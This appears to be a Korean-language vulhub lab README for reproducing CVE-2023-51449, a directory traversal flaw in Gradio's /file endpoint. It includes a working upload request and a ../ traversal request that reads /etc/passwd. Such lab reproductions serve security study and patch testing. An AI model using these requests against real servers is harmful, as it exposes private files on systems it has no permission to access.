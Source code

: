 # Gradio /file Interface Directory Traversal (CVE-2023-51449)

디렉터리 트래버설(Directory Traversal) 및 서버 사이드 요청 위조(SSRF)

[中文版本(Chinese version)](https://github.com/vulhub/vulhub/blob/master/gradio/CVE-2023-51449/README.zh-cn.md)

- **Gradio**는 사용자가 프론트트엔드 코드를 작성하지 않고도 머신 러닝 모델을 위한 시각적 웹 인터페이스를 빠르게 구축할 수 있는 Python 라이브러리이다.

- Gradio 4.11 이하 버전에서는 인증이 활성화되지 않은 경우, 공격자가 파일 경로만 알고 있다면 공개 URL을 통해 Gradio 애플리케이션을 실행하는 서버에 존재하는 임의의 파일에 액세스할 수 있다.

참고 문헌

- [gradio-app/gradio#6833](https://github.com/gradio-app/gradio/pull/6833)
- [gradio-app/Make the `/file` secure against file traversal attacks and SSRF](https://github.com/gradio-app/gradio/security/advisories/GHSA-6qm2-wpxq-7qh2)

## 환경 설정 (Environment Setup)

Gradio 4.10.0으로 빌드된 애플리케이션을 시작하기 위해 다음 명령을 실행해야 한다.

```
docker compose up -d
```

서버가 시작되면 기본적으로 인증(Authentication)이 비활성화되어 있다.
애플리케이션은 브라우저에서 `http://[your IP]:7680` 주소로 접속할 수 있다.

## 취약점 재현 (Vulnerability Reproduction)

### 1. 파일 업로드 및 파일 경로 확보

업로드 인터페이스를 사용하여 파일을 서버에 업로드하고, 업로드된 파일의 접근 가능한 경로를 확인 및 획득한다.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--
```

![](3.png)

### 2. 디렉터리 트래버설을 이용한 민감 파일 접근

접근 가능한 파일 경로가 확보되면 `/file` 인터페이스와 디렉터리 트래버설을 사용하여 `/etc/passwd`와 같은 서버 내 민감 파일을 읽을 수 있다.

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36 Edg/100.0.1185.36
Connection: close
Accept-Encoding: gzip
```

![](4.png)

## 요약

- 인증이 비활성화된 상태에서 `/file` 엔드포인트가 디렉터리 트래버설 공격에 취약하다.
- 업로드된 파일 경로를 활용하여 서버 내 임의 파일에 접근할 수 있다.
- Gradio 4.11 이상 버전에서는 해당 취약점이 패치되었다.
